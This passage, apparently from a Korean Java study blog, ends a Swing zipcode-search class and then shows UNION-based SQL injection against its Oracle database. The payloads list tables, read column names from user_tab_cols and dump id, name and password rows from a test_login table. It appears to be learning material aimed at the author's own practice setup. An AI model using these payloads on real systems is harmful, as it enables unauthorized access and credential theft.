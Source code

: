 ```java
        se.printStackTrace();
    }
  }
  
  @Override
  public void actionPerformed(ActionEvent e) {
    String dong = zv.getJtfDong().getText().trim();
        
    if (!dong.equals("")) {
      searchZipcode(dong);
    }
  }
  
  @Override
  public void windowClosing(WindowEvent e) {
    zv.dispose();
  }
}    
```

* **발생 가능한 SQL Injection**
  * **UNION을 사용하여 공격을 수행.**
    *** UNION은 컬럼의 수와 데이터형이 맞지않으면 에러남**
    * 컬럼수를 계속 늘려가면서 시도한다.
  * 테이블 이름을 얻는 SQL Injection

```sql
' UNION SELECT tname, '0', '0', '0', '0' FROM tab --
```

![06](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/06.png?raw=true)

* 이렇게 뚫리면 오라클 DB란 의미
  * 여러 dictionary들을 알 수 있게됨
* 테이블의 이름을 알 수 있는 쿼리

```sql
select column_name from user_tab_cols where table_name='TEST_LOGIN';
```

* **특정 테이블의 컬럼명 얻는 SQL Injection**

```sql
' UNION SELECT column_name,data_type,'0','0','0' FROM user_tab_cols WHERE table_name='TEST_LOGIN' ---
```

![07](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/07.png?raw=true)

* **레코드 검색 SQL Injection**

```sql
' UNION SELECT id,name,pass,'0','0' FROM test_login --
```

![08](https://github.com/younggeun0/younggeun0.github.io/blob/master/_posts/img/java/36/08.png?raw=true)

